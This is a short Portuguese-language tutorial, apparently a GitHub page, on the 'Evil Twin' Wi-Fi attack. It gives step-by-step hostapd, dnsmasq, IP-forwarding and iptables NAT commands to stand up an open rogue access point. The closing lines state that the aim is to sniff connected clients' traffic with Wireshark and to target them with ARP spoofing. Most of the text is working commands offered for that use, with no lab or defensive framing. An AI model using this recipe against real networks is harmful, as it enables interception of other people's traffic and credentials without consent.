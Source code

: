 #### Tecnica EVIL TWIN

Primeiro é necessario instalar algumas ferramentas, hostapd que sera nosso servidor AP e dnsmasq sera nosso servidor DNS e nosso servidor DCHP, com o IPTABLES faremos o redirecionamento dos pacotes para nossa interface com acesso a internet
```
apt install hostapd dnsmasq iptables
```

Agora precisamos criar o arquivo de configuração do hostapd

```
nano /etc/hostapd/hostapd.conf
```
Vamos adicionar as seguintes configurações, claro que devemos adaptar ao nosso ambiente, como alterar o ssid para o nome especifico em questão, e a interface para sua placa de rede
```
interface=wlan0
driver=nl80211
ssid=MeuAP
hw_mode=g
channel=6
ieee80211n=1
wmm_enabled=1
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
ctrl_interface=/var/run/hostapd
ctrl_interface_group=0
```
Agora vamos configurar o hostapd para usar nosso arquivo de configuração
```
nano /etc/default/hostapd
```
Adicionar a seguinte linha
```
DAEMON_CONF="/etc/hostapd/hostapd.conf"
```
Agora vamos configurar o dnsmasq para usar trabalhar com DHCP
```
nano /etc/dnsmasq.conf
```
Adicionar as seguintes configurações, lembrando de adaptar a interface de rede para sua interface em questão
```
interface=wlan0
dhcp-range=192.168.10.10,192.168.10.50,12h
dhcp-option=3,192.168.10.1
dhcp-option=6,192.168.10.1
server=8.8.8.8
log-queries
log-dhcp
```
Agora vamos definir os endereços estaticos para a interface do nosso AP
```
ip addr add 192.168.10.1/24 dev wlan0
```
Agora precisamos habilitar o redirecionamento de IP
```
sysctl -w net.ipv4.ip_forward=1
```
Agora vamos usar o IPTABLES para criar uma regra de NAT para compartilhar internet com nossa interface de rede conectada a rede (no meu caso minha interface cabeada)
```
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
Agora apenas precisamos iniciar o nosso hostapd e o dnsmasqd
```
systemctl start hostapd
systemctl start dnsmasq
```
Uma vez iniciado os serviços, o AP deve estar on e com acesso a internet.<br><br>
A rede não póssui criptografia, então basta subir uma placa de rede em modo monitoramento para analizar o trafego de rede gerado pelos clientes com wireshark
<br><br>
Tambem é possivel analizar os clientes conectados com o comando "arp" para realizar um arpspoofing




